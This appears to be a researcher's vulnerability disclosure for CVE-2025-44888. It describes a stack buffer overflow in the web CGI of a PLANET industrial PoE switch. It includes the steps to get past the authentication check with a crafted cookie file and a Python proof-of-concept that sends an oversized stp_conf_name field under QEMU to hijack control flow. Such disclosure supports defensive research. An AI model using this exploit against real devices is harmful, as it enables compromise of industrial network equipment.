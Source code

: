 ```yaml
---
title: web_stp_globalSetting_post-stp_conf_name
date: 2025-04-20 17:09:34
tags: cve
---
```




**Affected Product**: FW-WGS-804HPT

**Affected Firmware Versions**:  v1.305b241111

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: CVE-2025-44888





# FW-WGS-804HPT_v1.305b241111 introduced

The WGS-804HPT-V2 is a ruggedized industrial-grade Ethernet switch designed for harsh environments and mission-critical applications. As part of PLANET Technology's Industrial Automation Series, this 8-port managed switch combines Power over Ethernet (PoE+) capabilities with industrial durability, making it ideal for building automation, smart infrastructure, and IoT deployments.



Official Product Page: https://www.planet.com.tw/en/product/wgs-804hpt-v2



# web_stp_globalSetting_post-stp_conf_name

I discovered a  stack overflow vulnerability in the Planet router.

By analyzing the dispatcher file in the bin directory, I found that the function web_stp_globalSetting_post  contains a stack overflow vulnerability.

The stack overflow can be triggered by stp_conf_name value, which leads to a memcpy stack overflow.

![image-20250321152223389](../res/202503211522484-17451404307454.png)

In the main function, there is an account authentication detection. We create a cookie_0 in the tmp directory, with the content of "20 0 0", and its function is to create a cookie with sufficient permissions to access this route.

```json
20 0 0
```



![image-20250417095422676](../res/image-20250417095422676-17448548644841.png)



![image-20250417095523856](../res/image-20250417095523856-17448549249282.png)



Through IDA, it can be seen that the stack space is 0x40

﻿The content of the **poc**.py file is as follows:

```json
import os


a = 0x1601
var_name = "stp_conf_name"
b = 'a' * 0x200


poc_content = f"&cmd={a}&{var_name}={b}"
with open('poc', 'w') as f:
    f.write(poc_content)

command = (
    "sudo chroot . ./qemu-mips-static "
    "-E REQUEST_METHOD=POST "
    "-E HTTP_COOKIE='hid=0' "
    "-L ./lib "
    "-g 1234 "
    "./dispatcher.cgi "
    "< poc"  
)


os.system(command)



```



![image-20250417095551086](../res/image-20250417095551086-17448549533853.png)

![image-20250417095707430](../res/image-20250417095707430-17448550284864.png)



Through the above image, we can see that we have overflowed to 0x1b8 and successfully hijacked the control flow. If necessary, more can be overflowed.

